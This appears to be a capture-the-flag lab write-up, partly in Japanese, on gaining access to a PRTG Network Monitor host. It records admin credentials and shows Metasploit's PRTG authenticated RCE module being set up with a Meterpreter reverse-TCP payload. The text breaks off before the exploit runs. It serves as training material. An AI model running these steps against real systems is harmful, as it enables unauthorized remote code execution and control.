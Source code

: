 ## login at web page
http://10.10.10.152
User : prtgadmin  
Password : PrTg@dmin2019  
でログインできました。

http://10.10.10.152/welcome.htm
## search exploit
```
msf6 > search PRTG

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/windows/http/prtg_authenticated_rce  2018-06-25       excellent  Yes    PRTG Network Monitor Authenticated RCE


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/prtg_authenticated_rce
```
 ## Get Shell
```
msf6 > use exploit/windows/http/prtg_authenticated_rce
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/prtg_authenticated_rce) > Interrupt: use the 'exit' command to quit
msf6 exploit(windows/http/prtg_authenticated_rce) > set admin_password PrTg@dmin2019
admin_password => PrTg@dmin2019
msf6 exploit(windows/http/prtg_authenticated_rce) > set RHOSTS 10.10.10.152
RHOSTS => 10.10.10.152
msf6 exploit(windows/http/prtg_authenticated_rce) > set LHOST tun0
LHOST => tun0
msf6 exploit(windows/http/prtg_authenticated_rce) > show options 

Module options (exploit/windows/http/prtg_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   ADMIN_PASSWORD  PrTg@dmin2019    yes       The password for the specified username
   ADMIN_USERNAME  prtgadmin        yes       The username to authenticate as
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          10.10.10.152     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT           80               yes       The target port (TCP)
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                            no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:
```